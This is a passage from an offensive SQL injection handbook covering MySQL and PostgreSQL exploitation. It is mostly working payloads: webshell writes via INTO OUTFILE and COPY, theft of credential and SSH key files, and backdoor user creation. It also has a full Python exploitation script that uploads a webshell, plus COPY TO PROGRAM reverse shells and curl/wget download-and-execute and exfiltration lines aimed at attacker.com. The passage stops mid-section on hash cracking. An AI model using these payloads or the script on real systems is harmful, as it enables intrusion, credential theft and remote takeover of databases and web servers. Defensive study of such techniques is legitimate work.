    echo "<pre>";
    $result = shell_exec($cmd);
    echo $result;
    echo "</pre>";
}
?>',NULL,NULL INTO OUTFILE '/var/www/html/cmd.php'--

# Mini webshell (short)
' UNION SELECT '<?=`$_GET[c]`?>' INTO OUTFILE '/var/www/html/s.php'--

# Backdoored image
' UNION SELECT CONCAT(LOAD_FILE('/var/www/html/image.jpg'),'<?php system($_GET["c"]); ?>') 
  INTO DUMPFILE '/var/www/html/backdoor.php.jpg'--
```

#### Method 2: Log File Poisoning

```sql
# Check if general log is enabled
' UNION SELECT @@general_log,@@general_log_file,NULL--

# Enable general log
'; SET GLOBAL general_log = 'ON'--

# Set log file location
'; SET GLOBAL general_log_file = '/var/www/html/shell.php'--

# Inject PHP code into query (it will be logged)
' UNION SELECT '<?php system($_GET["c"]); ?>',NULL,NULL--

# Now access: http://target.com/shell.php?c=whoami

# Disable logging
'; SET GLOBAL general_log = 'OFF'--
```

#### Method 3: Via INTO DUMPFILE

```sql
# INTO DUMPFILE vs INTO OUTFILE
# OUTFILE: Adds line terminator, escapes characters
# DUMPFILE: Raw binary write, single row only

# Perfect for uploading shells
' UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2263225d293b203f3e 
  INTO DUMPFILE '/var/www/html/shell.php'--

# Hex decoded: <?php system($_GET["c"]); ?>
```

### MySQL Privilege Escalation Techniques

#### Leveraging FILE Privilege

```sql
# Read sensitive files
' UNION SELECT LOAD_FILE('/etc/mysql/my.cnf'),NULL,NULL--
' UNION SELECT LOAD_FILE('/etc/mysql/debian.cnf'),NULL,NULL--  # Debian: root password
' UNION SELECT LOAD_FILE('/root/.my.cnf'),NULL,NULL--  # User MySQL config
' UNION SELECT LOAD_FILE('/var/lib/mysql/mysql-bin.000001'),NULL,NULL--  # Binary logs

# Read MySQL users and passwords
' UNION SELECT LOAD_FILE('/var/lib/mysql/mysql/user.MYD'),NULL,NULL--

# Read SSH keys
' UNION SELECT LOAD_FILE('/root/.ssh/id_rsa'),NULL,NULL--
' UNION SELECT LOAD_FILE('/home/mysql/.ssh/id_rsa'),NULL,NULL--

# Read web application configs
' UNION SELECT LOAD_FILE('/var/www/html/wp-config.php'),NULL,NULL--
' UNION SELECT LOAD_FILE('/var/www/html/.env'),NULL,NULL--
' UNION SELECT LOAD_FILE('/etc/nginx/nginx.conf'),NULL,NULL--
```

#### Password Hash Attacks

```sql
# Extract password hashes
' UNION SELECT user,authentication_string,plugin FROM mysql.user--

# MySQL 5.7 uses mysql_native_password or caching_sha2_password
# MySQL 8.0 defaults to caching_sha2_password

# Old format (MySQL < 5.7): 16-byte hex
# New format (MySQL 5.7+): SHA256 hash prefixed with *

# Crack with hashcat
# Mode 300: MySQL4.1/MySQL5 (for mysql_native_password)
hashcat -m 300 -a 0 hash.txt wordlist.txt

# Or use online crackers for weak passwords
```

#### Exploit Weak Authentication

```sql
# Find users with empty passwords
' UNION SELECT user,host,authentication_string FROM mysql.user WHERE authentication_string=''--

# Find users with host = '%' (can connect from anywhere)
' UNION SELECT user,host,NULL FROM mysql.user WHERE host='%'--

# Create backdoor user
'; CREATE USER 'backdoor'@'%' IDENTIFIED BY 'P@ssw0rd123!'--
'; GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%' WITH GRANT OPTION--
'; FLUSH PRIVILEGES--

# Alternative: Modify existing user's password
'; UPDATE mysql.user SET authentication_string=PASSWORD('newpass') WHERE user='root'--
'; FLUSH PRIVILEGES--
```

#### MySQL Process Manipulation

```sql
# View running queries
' UNION SELECT id,user,db,command,time,state,info FROM information_schema.processlist--

# Kill queries
'; KILL <process_id>--
'; KILL QUERY <process_id>--

# Find long-running queries (potential targets)
' UNION SELECT id,time,info FROM information_schema.processlist WHERE time>100--
```

### MySQL-Specific Bypasses

#### Character Encoding Bypasses

```sql
# UTF-8 multi-byte sequences
%c0%a7 = Single quote (overlong encoding)
%c0%27 = Another single quote variant

# Example
' UNION%c0%a7 SELECT NULL--

# Double URL encoding
%2527 = Single quote (%25 = %, 27 = ')
' UNION%2520SELECT-- (%20 = space)

# MySQL character set conversion
' /*!50000UniOn*/ /*!50000SelEcT*/ NULL--
```

#### Comment-Based Bypasses

```sql
# Inline comments
'/**/UNION/**/SELECT/**/NULL--
'/*!UNION*//*!SELECT*/NULL--

# Version-specific comments
'/*!12345UNION*/SELECT NULL--  # Executes only on MySQL 1.23.45+
'/*!50000UNION SELECT*/NULL--   # MySQL 5.0+

# Multiple comment styles
'--+UNION+SELECT+NULL--
'#UNION#SELECT#NULL--
'/*UNION/*SELECT*/NULL--
```

#### Space Bypasses

```sql
# Instead of space, use:
%09 (tab)
%0a (new line)
%0b (vertical tab)
%0c (form feed)
%0d (carriage return)
%a0 (non-breaking space)
/**/ (comment)
+ (in URL context)

# Examples
'UNION%09SELECT%09NULL--
'UNION%0aSELECT%0aNULL--
'UNION/**/SELECT/**/NULL--
'UNION+SELECT+NULL--
```

#### Keyword Bypasses

```sql
# Case variation
' UnIoN SeLeCt NULL--
' uNiOn sElEcT NULL--

# Inline keywords
' UNI/**/ON SE/**/LECT NULL--
' /*!50000UNI*//*!50000ON*/ /*!50000SELE*//*!50000CT*/ NULL--

# Double keywords (if filter removes once)
' UNUNIONION SELSELECTECT NULL--

# Hex encoding
' 0x554e494f4e SELECT NULL--  # "UNION" in hex

# Concatenation
' CONCAT(CHAR(85,78,73,79,78),CHAR(32,83,69,76,69,67,84)) -- "UNION SELECT"
```

#### Operator Bypasses

```sql
# Instead of =
LIKE
REGEXP
IN
BETWEEN

# Examples
' AND username LIKE 'admin'--
' AND username REGEXP '^admin$'--
' AND id IN (1,2,3)--
' AND id BETWEEN 1 AND 10--

# Instead of OR
||
UNION

# Instead of AND
&&
&

# Examples
' WHERE 1=1 && 2=2--
' WHERE 1=1 || 2=3--
```

### MySQL Complete Exploitation Script

```python
#!/usr/bin/env python3
"""
Complete MySQL Exploitation Framework
Automated SQLi to RCE for MySQL databases
"""

import requests
import re
import sys
import argparse
from urllib.parse import quote
from colorama import Fore, Style, init
import base64
import binascii

init(autoreset=True)

class MySQLExploiter:
    def __init__(self, url, technique='UNION', columns=3):
        self.url = url
        self.technique = technique
        self.columns = columns
        self.db_version = None
        self.db_user = None
        self.db_name = None
        self.has_file_priv = False
        self.plugin_dir = None
        
    def send_payload(self, payload):
        """Send injection payload"""
        try:
            encoded = quote(payload)
            response = requests.get(f"{self.url}{encoded}", timeout=10)
            return response.text
        except Exception as e:
            print(f"{Fore.RED}[!] Error: {str(e)}")
            return None
    
    def extract_data(self, query):
        """Extract data using UNION SELECT"""
        # Build NULL padding
        nulls = ','.join(['NULL'] * (self.columns - 1))
        payload = f"' UNION SELECT {query},{nulls}--"
        return self.send_payload(payload)
    
    def check_file_privilege(self):
        """Check if current user has FILE privilege"""
        print(f"{Fore.CYAN}[*] Checking FILE privilege...")
        
        response = self.extract_data("file_priv FROM mysql.user WHERE user=SUBSTRING_INDEX(USER(),'@',1)")
        
        if response and 'Y' in response:
            self.has_file_priv = True
            print(f"{Fore.GREEN}[+] FILE privilege: YES")
        else:
            self.has_file_priv = False
            print(f"{Fore.YELLOW}[!] FILE privilege: NO")
        
        return self.has_file_priv
    
    def get_plugin_directory(self):
        """Get MySQL plugin directory"""
        print(f"{Fore.CYAN}[*] Getting plugin directory...")
        
        response = self.extract_data("@@plugin_dir")
        
        if response:
            # Extract path from response
            match = re.search(r'(/[\w/]+/|[A-Z]:\\[\w\\]+\\)', response)
            if match:
                self.plugin_dir = match.group(1)
                print(f"{Fore.GREEN}[+] Plugin directory: {self.plugin_dir}")
            else:
                print(f"{Fore.YELLOW}[!] Could not extract plugin directory")
        
        return self.plugin_dir
    
    def read_file(self, filepath):
        """Read file from filesystem"""
        print(f"{Fore.CYAN}[*] Reading file: {filepath}")
        
        if not self.has_file_priv:
            print(f"{Fore.RED}[!] FILE privilege required")
            return None
        
        payload = f"' UNION SELECT LOAD_FILE('{filepath}'),{',NULL'*(self.columns-1)}--"
        response = self.send_payload(payload)
        
        if response:
            print(f"{Fore.GREEN}[+] File content retrieved")
            return response
        else:
            print(f"{Fore.RED}[!] Could not read file")
            return None
    
    def write_file(self, content, filepath):
        """Write file to filesystem"""
        print(f"{Fore.CYAN}[*] Writing file: {filepath}")
        
        if not self.has_file_priv:
            print(f"{Fore.RED}[!] FILE privilege required")
            return False
        
        payload = f"' UNION SELECT '{content}',{',NULL'*(self.columns-1)} INTO OUTFILE '{filepath}'--"
        response = self.send_payload(payload)
        
        # Check if successful (no error message)
        if response and 'error' not in response.lower():
            print(f"{Fore.GREEN}[+] File written successfully")
            return True
        else:
            print(f"{Fore.RED}[!] Could not write file")
            return False
    
    def upload_webshell(self, webroot='/var/www/html'):
        """Upload PHP webshell"""
        print(f"{Fore.CYAN}[*] Uploading webshell to {webroot}/shell.php")
        
        webshell = '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>'
        
        if self.write_file(webshell, f'{webroot}/shell.php'):
            print(f"{Fore.GREEN}[+] Webshell uploaded!")
            print(f"{Fore.CYAN}[*] Access at: http://<target>/shell.php?cmd=whoami")
            return True
        
        return False
    
    def extract_users(self):
        """Extract MySQL users and password hashes"""
        print(f"{Fore.CYAN}[*] Extracting user credentials...")
        
        payload = f"' UNION SELECT CONCAT(user,'@',host,':',authentication_string),{',NULL'*(self.columns-1)} FROM mysql.user--"
        response = self.send_payload(payload)
        
        if response:
            print(f"{Fore.GREEN}[+] Users extracted:")
            # Parse and display users
            users = re.findall(r'(\w+)@([\w%.]+):(\*[A-F0-9]{40})?', response)
            for user, host, hash_val in users:
                if hash_val:
                    print(f"  {user}@{host} : {hash_val}")
                else:
                    print(f"  {user}@{host} : (no password)")
        
        return response
    
    def create_udf_backdoor(self):
        """Create UDF for command execution"""
        print(f"{Fore.CYAN}[*] Attempting UDF backdoor creation...")
        
        if not self.has_file_priv:
            print(f"{Fore.RED}[!] FILE privilege required for UDF")
            return False
        
        if not self.plugin_dir:
            print(f"{Fore.RED}[!] Plugin directory unknown")
            return False
        
        # This is a placeholder - in real scenario, you'd have the compiled UDF binary
        print(f"{Fore.YELLOW}[!] UDF binary upload not implemented in this demo")
        print(f"{Fore.CYAN}[*] Steps to manually create UDF:")
        print(f"  1. Upload lib_mysqludf_sys.so to {self.plugin_dir}")
        print(f"  2. CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so'")
        print(f"  3. SELECT sys_eval('whoami')")
        
        return False
    
    def enumerate_database(self):
        """Complete database enumeration"""
        print(f"{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}MySQL Database Enumeration")
        print(f"{Fore.YELLOW}{'='*70}\n")
        
        # Get version
        print(f"{Fore.CYAN}[*] Extracting database version...")
        response = self.extract_data("@@version")
        if response:
            match = re.search(r'(\d+\.\d+\.\d+)', response)
            if match:
                self.db_version = match.group(1)
                print(f"{Fore.GREEN}[+] Version: {self.db_version}")
        
        # Get current user
        print(f"\n{Fore.CYAN}[*] Extracting current user...")
        response = self.extract_data("CONCAT(user(),'|',current_user(),'|',@@hostname)")
        if response:
            print(f"{Fore.GREEN}[+] User info: {response[:200]}")
        
        # Get current database
        print(f"\n{Fore.CYAN}[*] Extracting current database...")
        response = self.extract_data("database()")
        if response:
            match = re.search(r'>(\w+)<', response)
            if match:
                self.db_name = match.group(1)
                print(f"{Fore.GREEN}[+] Database: {self.db_name}")
        
        # List all databases
        print(f"\n{Fore.CYAN}[*] Listing all databases...")
        response = self.extract_data("GROUP_CONCAT(schema_name) FROM information_schema.schemata")
        if response:
            databases = re.findall(r'>\s*([a-zA-Z0-9_,]+)\s*<', response)
            if databases:
                print(f"{Fore.GREEN}[+] Databases: {databases[0]}")
        
        # List tables in current database
        print(f"\n{Fore.CYAN}[*] Listing tables in {self.db_name}...")
        response = self.extract_data(f"GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()")
        if response:
            tables = re.findall(r'>\s*([a-zA-Z0-9_,]+)\s*<', response)
            if tables:
                print(f"{Fore.GREEN}[+] Tables: {tables[0]}")
        
        # Check privileges
        print(f"\n{Fore.CYAN}[*] Checking privileges...")
        self.check_file_privilege()
        
        # Get plugin directory
        self.get_plugin_directory()
        
        print(f"\n{Fore.GREEN}[+] Enumeration complete!")
    
    def exploit(self):
        """Full exploitation chain"""
        print(f"{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}MySQL Exploitation Framework")
        print(f"{Fore.YELLOW}{'='*70}\n")
        
        # Step 1: Enumerate
        self.enumerate_database()
        
        # Step 2: Extract sensitive data
        print(f"\n{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}Extracting Sensitive Data")
        print(f"{Fore.YELLOW}{'='*70}\n")
        
        self.extract_users()
        
        # Step 3: Attempt file operations
        if self.has_file_priv:
            print(f"\n{Fore.YELLOW}{'='*70}")
            print(f"{Fore.YELLOW}File Operations")
            print(f"{Fore.YELLOW}{'='*70}\n")
            
            # Read /etc/passwd
            self.read_file('/etc/passwd')
            
            # Try webshell upload
            self.upload_webshell()
        
        # Step 4: Attempt RCE via UDF
        print(f"\n{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}Remote Code Execution Attempt")
        print(f"{Fore.YELLOW}{'='*70}\n")
        
        self.create_udf_backdoor()
        
        print(f"\n{Fore.GREEN}[+] Exploitation complete!")


def main():
    parser = argparse.ArgumentParser(description='MySQL SQLi Exploitation Framework')
    parser.add_argument('-u', '--url', required=True, 
                       help='Target URL (up to injectable parameter)')
    parser.add_argument('-c', '--columns', type=int, default=3,
                       help='Number of columns in SELECT (default: 3)')
    parser.add_argument('-t', '--technique', default='UNION',
                       choices=['UNION', 'ERROR', 'BOOLEAN', 'TIME'],
                       help='Injection technique (default: UNION)')
    
    args = parser.parse_args()
    
    exploiter = MySQLExploiter(args.url, args.technique, args.columns)
    exploiter.exploit()


if __name__ == "__main__":
    main()
```

**Usage:**

```bash
# Basic exploitation
python mysql_exploit.py -u "http://target.com/page.php?id=1"

# With custom column count
python mysql_exploit.py -u "http://target.com/product.php?id=5" -c 5

# Output:
# ======================================================================
# MySQL Exploitation Framework
# ======================================================================
# 
# ======================================================================
# MySQL Database Enumeration
# ======================================================================
# 
# [*] Extracting database version...
# [+] Version: 5.7.33
# 
# [*] Extracting current user...
# [+] User info: webapp@localhost|webapp@localhost|webserver01
# 
# [*] Extracting current database...
# [+] Database: shopdb
# 
# [*] Listing all databases...
# [+] Databases: information_schema,mysql,performance_schema,shopdb
# 
# [*] Listing tables in shopdb...
# [+] Tables: users,products,orders,reviews
# 
# [*] Checking privileges...
# [+] FILE privilege: YES
# 
# [*] Getting plugin directory...
# [+] Plugin directory: /usr/lib/mysql/plugin/
# 
# [+] Enumeration complete!
# 
# ======================================================================
# Extracting Sensitive Data
# ======================================================================
# 
# [*] Extracting user credentials...
# [+] Users extracted:
#   root@localhost : *6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9
#   webapp@localhost : *8D9A4D6F8B0F3E9C1B2A5D7E8C9F0A1B2C3D4E5F
# 
# ======================================================================
# File Operations
# ======================================================================
# 
# [*] Reading file: /etc/passwd
# [+] File content retrieved
# 
# [*] Uploading webshell to /var/www/html/shell.php
# [+] File written successfully
# [+] Webshell uploaded!
# [*] Access at: http://<target>/shell.php?cmd=whoami
# 
# ======================================================================
# Remote Code Execution Attempt
# ======================================================================
# 
# [*] Attempting UDF backdoor creation...
# [!] UDF binary upload not implemented in this demo
# [*] Steps to manually create UDF:
#   1. Upload lib_mysqludf_sys.so to /usr/lib/mysql/plugin/
#   2. CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so'
#   3. SELECT sys_eval('whoami')
# 
# [+] Exploitation complete!
```


## 🐘 Chapter 12: PostgreSQL Exploitation

### PostgreSQL-Specific Features

```
PostgreSQL Characteristics:
━━━━━━━━━━━━━━━━━━━━━━━━━━━
✓ Most advanced open-source RDBMS
✓ Supports advanced data types (JSON, arrays, hstore)
✓ Powerful procedural languages (PL/pgSQL, PL/Python)
✓ Extensive system catalogs
✓ COPY TO/FROM for file operations
✓ Large object support
✓ Network functions (dblink, postgres_fdw)

Versions:
PostgreSQL 9.x  - Older, still common
PostgreSQL 10+  - Logical replication
PostgreSQL 11+  - JIT compilation
PostgreSQL 12+  - Better partitioning
PostgreSQL 13+  - B-tree deduplication
PostgreSQL 14+  - Performance improvements
PostgreSQL 15+  - Logical replication enhancements
```

### PostgreSQL System Catalogs

```sql
# Core system catalogs
pg_catalog.pg_database        # All databases
pg_catalog.pg_tables          # All tables
pg_catalog.pg_user            # User accounts
pg_catalog.pg_roles           # Roles
pg_catalog.pg_stat_activity   # Current connections
pg_catalog.pg_proc            # Functions and procedures

# Information schema (ANSI standard)
information_schema.tables
information_schema.columns
information_schema.schemata
```

### Complete PostgreSQL Exploitation Payloads

#### Database Enumeration

```sql
# Current database
' UNION SELECT current_database(),NULL,NULL--

# Database version
' UNION SELECT version(),NULL,NULL--

# Current user
' UNION SELECT current_user,NULL,NULL--
' UNION SELECT session_user,NULL,NULL--
' UNION SELECT user,NULL,NULL--

# Server information
' UNION SELECT inet_server_addr()::text,inet_server_port()::text,NULL--
' UNION SELECT current_setting('data_directory'),NULL,NULL--
' UNION SELECT current_setting('config_file'),NULL,NULL--

# List all databases
' UNION SELECT datname,NULL,NULL FROM pg_database--
' UNION SELECT string_agg(datname,','),NULL,NULL FROM pg_database--

# List schemas
' UNION SELECT schema_name,NULL,NULL FROM information_schema.schemata--
' UNION SELECT nspname,NULL,NULL FROM pg_namespace--

# Database size
' UNION SELECT pg_database_size(current_database())::text,NULL,NULL--
' UNION SELECT pg_size_pretty(pg_database_size(current_database())),NULL,NULL--
```

#### Table & Column Enumeration

```sql
# List tables in current database
' UNION SELECT tablename,NULL,NULL FROM pg_tables WHERE schemaname='public'--
' UNION SELECT string_agg(tablename,','),NULL,NULL FROM pg_tables WHERE schemaname='public'--

# List all tables with schemas
' UNION SELECT schemaname||'.'||tablename,NULL,NULL FROM pg_tables--

# Table information with row counts
' UNION SELECT tablename,n_live_tup::text,NULL FROM pg_stat_user_tables--

# List columns from specific table
' UNION SELECT column_name,data_type,NULL FROM information_schema.columns WHERE table_name='users'--
' UNION SELECT column_name,NULL,NULL FROM information_schema.columns WHERE table_name='users'--

# Get table structure
' UNION SELECT column_name,data_type,character_maximum_length::text FROM information_schema.columns WHERE table_name='users'--

# Find columns by name pattern
' UNION SELECT table_name,column_name,NULL FROM information_schema.columns WHERE column_name LIKE '%pass%'--
' UNION SELECT table_name,column_name,NULL FROM information_schema.columns WHERE column_name LIKE '%user%'--
' UNION SELECT table_name,column_name,NULL FROM information_schema.columns WHERE column_name LIKE '%email%'--
```

#### User & Privilege Enumeration

```sql
# List all users
' UNION SELECT usename,NULL,NULL FROM pg_user--
' UNION SELECT rolname,NULL,NULL FROM pg_roles--

# User privileges
' UNION SELECT usename,usesuper::text,usecreatedb::text FROM pg_user--
' UNION SELECT rolname,rolsuper::text,rolcreaterole::text FROM pg_roles--

# Check if current user is superuser
' UNION SELECT usesuper::text,NULL,NULL FROM pg_user WHERE usename=current_user--

# Get password hashes (requires superuser)
' UNION SELECT usename,passwd,NULL FROM pg_shadow--
' UNION SELECT rolname,rolpassword,NULL FROM pg_authid--

# User permissions on databases
' UNION SELECT usename,datname,has_database_privilege(usename,datname,'CONNECT')::text FROM pg_user,pg_database--

# Table permissions
' UNION SELECT grantee,table_name,privilege_type FROM information_schema.table_privileges WHERE table_schema='public'--
```

#### Data Extraction

```sql
# Basic extraction
' UNION SELECT username,password,email FROM users--

# Cast to text (PostgreSQL is strict about types)
' UNION SELECT username::text,password::text,email::text FROM users--
' UNION SELECT id::text,username,password FROM users--

# Concatenate multiple columns
' UNION SELECT username||':'||password,NULL,NULL FROM users--
' UNION SELECT username||':'||password||':'||email,NULL,NULL FROM users--

# Aggregate all rows
' UNION SELECT string_agg(username||':'||password,E'\n'),NULL,NULL FROM users--
' UNION SELECT string_agg(username||':'||password,','),NULL,NULL FROM users--

# Array aggregation
' UNION SELECT array_agg(username)::text,array_agg(password)::text,NULL FROM users--

# JSON output
' UNION SELECT row_to_json(users)::text,NULL,NULL FROM users--
' UNION SELECT json_agg(users)::text,NULL,NULL FROM users--

# Pagination
' UNION SELECT username,password,NULL FROM users OFFSET 0 LIMIT 1--
' UNION SELECT username,password,NULL FROM users OFFSET 1 LIMIT 1--
' UNION SELECT username,password,NULL FROM users OFFSET 2 LIMIT 1--

# Ordering
' UNION SELECT username,password,NULL FROM users ORDER BY id ASC--
' UNION SELECT username,password,NULL FROM users ORDER BY created_at DESC--
```

#### PostgreSQL-Specific Functions

```sql
# String manipulation
' UNION SELECT concat(username,':',password),NULL,NULL FROM users--
' UNION SELECT username||':'||password,NULL,NULL FROM users--  # || is concat
' UNION SELECT substring(password,1,16),NULL,NULL FROM users--
' UNION SELECT substring(password FROM 1 FOR 16),NULL,NULL FROM users--

# Encoding/Decoding
' UNION SELECT encode(password::bytea,'hex'),NULL,NULL FROM users--
' UNION SELECT encode(password::bytea,'base64'),NULL,NULL FROM users--
' UNION SELECT decode('68656c6c6f','hex')::text,NULL,NULL--
' UNION SELECT convert_from(decode('68656c6c6f','hex'),'UTF8'),NULL,NULL--

# Hashing
' UNION SELECT md5('password'),NULL,NULL--
' UNION SELECT digest('password','sha256')::text,NULL,NULL--
' UNION SELECT digest('password','sha512')::text,NULL,NULL--

# Encryption (if pgcrypto extension available)
' UNION SELECT pgp_sym_encrypt('data','key')::text,NULL,NULL--
' UNION SELECT pgp_sym_decrypt(encrypted_data,'key')::text,NULL,NULL FROM secrets--

# Regular expressions
' UNION SELECT username,NULL,NULL FROM users WHERE username ~ '^admin'--
' UNION SELECT username,NULL,NULL FROM users WHERE email ~* '.*@admin\.com$'--

# Type conversion
' UNION SELECT id::text,created_at::text,NULL FROM users--
' UNION SELECT username,password::text,NULL FROM users--

# Date/Time
' UNION SELECT now()::text,current_timestamp::text,NULL--
' UNION SELECT extract(epoch from now())::text,NULL,NULL--
' UNION SELECT to_char(created_at,'YYYY-MM-DD HH24:MI:SS'),NULL,NULL FROM users--

# JSON operations (PostgreSQL 9.3+)
' UNION SELECT json_data->>'key',NULL,NULL FROM json_table--
' UNION SELECT json_data->'nested'->'key',NULL,NULL FROM json_table--
' UNION SELECT jsonb_pretty(json_data)::text,NULL,NULL FROM json_table--
```

#### File Operations

**Reading Files:**

```sql
# Using pg_read_file() - requires superuser
' UNION SELECT pg_read_file('/etc/passwd'),NULL,NULL--
' UNION SELECT pg_read_file('/etc/passwd',0,1000),NULL,NULL--  # offset, length

# Read binary file
' UNION SELECT encode(pg_read_binary_file('/etc/passwd'),'base64'),NULL,NULL--

# Using COPY FROM - requires superuser
'; CREATE TABLE temp_file(content text)--
'; COPY temp_file FROM '/etc/passwd'--
' UNION SELECT content,NULL,NULL FROM temp_file--
'; DROP TABLE temp_file--

# Using lo_import (Large Objects) - requires superuser
' UNION SELECT lo_import('/etc/passwd')::text,NULL,NULL--  # Returns OID
' UNION SELECT lo_get(12345)::text,NULL,NULL--  # Read using OID
' UNION SELECT encode(lo_get(12345),'base64'),NULL,NULL--

# Read file listing
' UNION SELECT pg_ls_dir('/etc')::text,NULL,NULL--  # PostgreSQL 9.5+

# Check file exists
' UNION SELECT pg_read_file('/etc/passwd',0,1),NULL,NULL--  # Error if not exists

# Read configuration
' UNION SELECT pg_read_file(current_setting('config_file')),NULL,NULL--

# Common files to read
/etc/passwd
/etc/shadow (rarely readable)
/var/lib/postgresql/data/postgresql.conf
/var/lib/postgresql/data/pg_hba.conf
~/.pgpass (password file)
/etc/postgresql/*/main/postgresql.conf
```

**Writing Files:**

```sql
# Using COPY TO - requires superuser
'; COPY (SELECT 'file content') TO '/tmp/output.txt'--
'; COPY users TO '/tmp/users.csv' CSV HEADER--
'; COPY (SELECT username||':'||password FROM users) TO '/tmp/creds.txt'--

# Write webshell
'; COPY (SELECT '<?php system($_GET["c"]); ?>') TO '/var/www/html/shell.php'--

# Using Large Objects
'; SELECT lo_create(-1)--  # Create LO, returns OID
'; INSERT INTO pg_largeobject VALUES (12345, 0, decode('base64content','base64'))--
'; UPDATE pg_largeobject SET data=decode('base64content','base64') WHERE loid=12345--
'; SELECT lo_export(12345, '/var/www/html/shell.php')--

# Multi-page large object write
'; SELECT lo_create(12345)--
'; INSERT INTO pg_largeobject VALUES (12345, 0, decode('first_chunk','base64'))--
'; INSERT INTO pg_largeobject VALUES (12345, 1, decode('second_chunk','base64'))--
'; SELECT lo_export(12345, '/tmp/file.bin')--
```

#### Command Execution

**Method 1: COPY TO PROGRAM (PostgreSQL 9.3+)**

```sql
# Requires superuser privilege

# Simple command
'; COPY (SELECT '') TO PROGRAM 'whoami > /tmp/output.txt'--

# Read output
'; CREATE TABLE cmd_output(output text)--
'; COPY cmd_output FROM PROGRAM 'whoami'--
' UNION SELECT output,NULL,NULL FROM cmd_output--
'; DROP TABLE cmd_output--

# One-liner extraction
'; CREATE TABLE c(o text); COPY c FROM PROGRAM 'id'; SELECT o FROM c--

# Reverse shell
'; COPY (SELECT '') TO PROGRAM 'bash -c "bash -i >& /dev/tcp/attacker.com/4444 0>&1"'--
'; COPY (SELECT '') TO PROGRAM 'nc -e /bin/bash attacker.com 4444'--
'; COPY (SELECT '') TO PROGRAM 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"attacker.com\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])"'--

# Download and execute
'; COPY (SELECT '') TO PROGRAM 'wget http://attacker.com/payload.sh -O /tmp/p.sh && bash /tmp/p.sh'--
'; COPY (SELECT '') TO PROGRAM 'curl http://attacker.com/malware -o /tmp/m && chmod +x /tmp/m && /tmp/m'--

# Data exfiltration
'; COPY (SELECT string_agg(username||':'||password,E'\n') FROM users) TO PROGRAM 'curl -X POST -d @- http://attacker.com/exfil'--
'; COPY users TO PROGRAM 'nc attacker.com 4444'--
```

**Method 2: PL/pgSQL Functions**

```sql
# Create function for command execution
'; CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE C STRICT--

# Execute commands
'; SELECT system('whoami > /tmp/output.txt')--
'; SELECT system('nc -e /bin/bash attacker.com 4444')--

# Alternative: Using PL/Python (if available)
'; CREATE EXTENSION IF NOT EXISTS plpythonu--
'; CREATE OR REPLACE FUNCTION exec_cmd(cmd text) RETURNS text AS $$
  import subprocess
  result = subprocess.check_output(cmd, shell=True)
  return result
$$ LANGUAGE plpythonu--

'; SELECT exec_cmd('whoami')--
'; SELECT exec_cmd('cat /etc/passwd')--

# PL/Perl (if available)
'; CREATE EXTENSION IF NOT EXISTS plperlu--
'; CREATE OR REPLACE FUNCTION exec_cmd(cmd text) RETURNS text AS $$
  return `$_[0]`;
$$ LANGUAGE plperlu--

'; SELECT exec_cmd('id')--
```

**Method 3: Using Extensions**

```sql
# Check available extensions
' UNION SELECT name,NULL,NULL FROM pg_available_extensions--

# Load malicious extension (if you can upload .so file)
'; CREATE EXTENSION malicious_ext--

# Using dblink for network operations
'; CREATE EXTENSION dblink--
'; SELECT dblink_connect('host=attacker.com dbname=postgres user=postgres password=pass')--

# Using file_fdw for file access
'; CREATE EXTENSION file_fdw--
'; CREATE SERVER fileserver FOREIGN DATA WRAPPER file_fdw--
'; CREATE FOREIGN TABLE passwd (content text) SERVER fileserver OPTIONS (filename '/etc/passwd', format 'text')--
' UNION SELECT content,NULL,NULL FROM passwd--
```

**Method 4: CVE Exploits**

```sql
# CVE-2019-9193 - COPY FROM PROGRAM as non-superuser
# Vulnerable: PostgreSQL 9.3 to 11.2
# Allows non-superuser to execute commands if they can create tables

'; CREATE TABLE cmd_exec(cmd_output text)--
'; COPY cmd_exec FROM PROGRAM 'id'--
' UNION SELECT cmd_output,NULL,NULL FROM cmd_exec--

# CVE-2018-1058 - Search path manipulation
'; CREATE SCHEMA IF NOT EXISTS attacker--
'; ALTER DATABASE <dbname> SET search_path = attacker,pg_catalog,public--
'; CREATE FUNCTION attacker.system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE C STRICT--
```

### PostgreSQL Privilege Escalation

#### Exploiting Superuser Functions

```sql
# Check if superuser
' UNION SELECT usesuper::text,NULL,NULL FROM pg_user WHERE usename=current_user--

# If superuser, full control:
# - Read any file
# - Write any file
# - Execute commands
# - Access all databases
# - Modify system catalogs

# Grant superuser (requires existing superuser or appropriate privileges)
'; ALTER USER current_user WITH SUPERUSER--
'; ALTER USER webapp WITH SUPERUSER--

# Create new superuser
'; CREATE USER attacker WITH SUPERUSER PASSWORD 'P@ssw0rd123!'--

# Escalate via function ownership
# If you own a SECURITY DEFINER function that runs as superuser
'; CREATE OR REPLACE FUNCTION evil() RETURNS void AS $$
  BEGIN
    EXECUTE 'ALTER USER ' || current_user || ' WITH SUPERUSER';
  END;
$$ LANGUAGE plpgsql SECURITY DEFINER--
'; SELECT evil()--
```

#### Password Hash Extraction & Cracking

```sql
# Extract password hashes (requires superuser)
' UNION SELECT rolname,rolpassword,NULL FROM pg_authid--
' UNION SELECT usename,passwd,NULL FROM pg_shadow--

# PostgreSQL password hash format
# Format: SCRAM-SHA-256$<iteration_count>:<salt>$<stored_key>:<server_key>
# Or older: md5<hex_hash>

# Crack md5 hashes
# hashcat mode: 12 (PostgreSQL MD5)
echo "md5d41d8cd98f00b204e9800998ecf8427e" > hash.txt
